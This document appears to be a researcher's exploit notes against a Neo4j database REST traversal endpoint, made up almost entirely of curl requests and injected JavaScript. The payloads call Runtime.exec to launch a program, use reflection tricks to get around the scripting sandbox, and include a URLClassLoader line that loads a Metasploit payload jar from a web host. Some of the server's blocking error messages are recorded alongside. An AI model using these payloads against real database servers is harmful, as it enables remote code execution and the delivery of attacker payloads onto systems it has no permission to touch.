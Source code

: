 
# Create a node
:POST /db/data/node {}
:PUT /db/data/node/1/properties/name "Alvaro"
:GET /db/data/node/1

:POST /db/data/node/2/traverse/node { "order" : "breadth_first", "return_filter" : { "body" : "position.endNode().getProperty('name').toLowerCase().contains('a')", "language" : "javascript" }, "prune_evaluator" : { "body" : "position.length() > 10", "language" : "javascript" }, "uniqueness" : "node_global", "relationships" : [], "max_depth" : 1}

:POST /db/data/node/2/traverse/node { "order" : "breadth_first", "return_filter" : { "body" : "new java.lang.String('test').contains('t')", "language" : "javascript" }, "prune_evaluator" : { "body" : "position.length() > 10", "language" : "javascript" }, "uniqueness" : "node_global", "relationships" : [], "max_depth" : 1}

:POST /db/data/node/2/traverse/node { "order" : "breadth_first", "return_filter" : { "body" : "new java.lang.Runtime.getRuntime().exec('/Applications/Calculator.app/Contents/MacOS/Calculator')", "language" : "javascript" }, "prune_evaluator" : { "body" : "position.length() > 10", "language" : "javascript" }, "uniqueness" : "node_global", "relationships" : [], "max_depth" : 1}


# Test
position.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('/Applications/Calculator.app/Contents/MacOS/Calculator')

curl -X POST  http://localhost:7474/db/data/node/2/traverse/node -H "Content-Type: application/json" -d '{ "order" : "breadth_first", "return_filter" : { "body" : "new java.lang.String(\"test\").contains(\"t\")", "language" : "javascript" }, "prune_evaluator" : { "body" : "position.length() > 10", "language" : "javascript" }, "uniqueness" : "node_global", "relationships" : [], "max_depth" : 1}'

# Direct access to Runtime
new java.lang.Runtime.getRuntime().exec('/Applications/Calculator.app/Contents/MacOS/Calculator')

curl -X POST  http://localhost:7474/db/data/node/2/traverse/node -H "Content-Type: application/json" -d '{ "order" : "breadth_first", "return_filter" : { "body" : "new java.lang.Runtime.getRuntime().exec(\"/Applications/Calculator.app/Contents/MacOS/Calculator\")", "language" : "javascript" }, "prune_evaluator" : { "body" : "position.length() > 10", "language" : "javascript" }, "uniqueness" : "node_global", "relationships" : [], "max_depth" : 1}'

"TypeError: [JavaPackage java.lang.Runtime.getRuntime] is not a function, it is object."

# Reflection way 1
position['class'].forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('/Applications/Calculator.app/Contents/MacOS/Calculator')

curl -X POST  http://localhost:7474/db/data/node/2/traverse/node -H "Content-Type: application/json" -d '{ "order" : "breadth_first", "return_filter" : { "body" : "position.getClass().forName(\"java.lang.Runtime\").getMethod(\"getRuntime\",null).invoke(null,null).exec(\"/Applications/Calculator.app/Contents/MacOS/Calculator\")", "language" : "javascript" }, "prune_evaluator" : { "body" : "position.length() > 10", "language" : "javascript" }, "uniqueness" : "node_global", "relationships" : [], "max_depth" : 1}'

"message" : "Access to Java class \"java.lang.Class\" is prohibited."

# Reflection way 2
curl -X POST  http://localhost:7474/db/data/node/2/traverse/node -H "Content-Type: application/json" -d '{ "order" : "breadth_first", "return_filter" : { "body" : "position[\"class\"].forName(\"java.lang.Runtime\").getMethod(\"getRuntime\",null).invoke(null,null).exec(\"/Applications/Calculator.app/Contents/MacOS/Calculator\")", "language" : "javascript" }, "prune_evaluator" : { "body" : "position.length() > 10", "language" : "javascript" }, "uniqueness" : "node_global", "relationships" : [], "max_depth" : 1}'

"message" : "Access to Java class \"java.lang.Class\" is prohibited."

# URLClassLoader
new URLClassLoader(new URL[]{new URL("http://localhost/~alvaro/met.jar")}).loadClass("metasploit.Payload").newInstance()
new URLClassLoader(new URL[]{new URL(\"http://localhost/~alvaro/met.jar\")}).loadClass(\"metasploit.Payload\").newInstance()

curl -X POST  http://localhost:7474/db/data/node/2/traverse/node -H "Content-Type: application/json" -d '{ "order" : "breadth_first", "return_filter" : { "body" : "var str = new java.lang.String(\"http://localhost/~alvaro/met.jar\");var url = new java.net.URL(str); var array = [url]; var cl = new java.lang.URLClassLoader(array);true", "language" : "javascript" }, "prune_evaluator" : { "body" : "position.length() > 10", "language" : "javascript" }, "uniqueness" : "node_global", "relationships" : [], "max_depth" : 1}'

TypeError: [JavaPackage java.net.URL] is not a function, it is object.



